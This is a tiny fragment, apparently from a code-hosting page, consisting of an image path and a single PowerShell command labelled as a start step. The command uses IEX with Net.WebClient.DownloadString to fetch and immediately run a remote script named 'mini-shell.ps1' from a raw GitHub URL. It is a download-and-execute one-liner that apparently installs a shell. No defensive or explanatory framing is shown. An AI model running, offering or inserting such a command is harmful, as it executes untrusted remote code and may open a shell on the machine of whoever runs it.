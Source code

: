 #CMD -> Start

    powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/getdrive/shell/master/mini-shell.ps1')
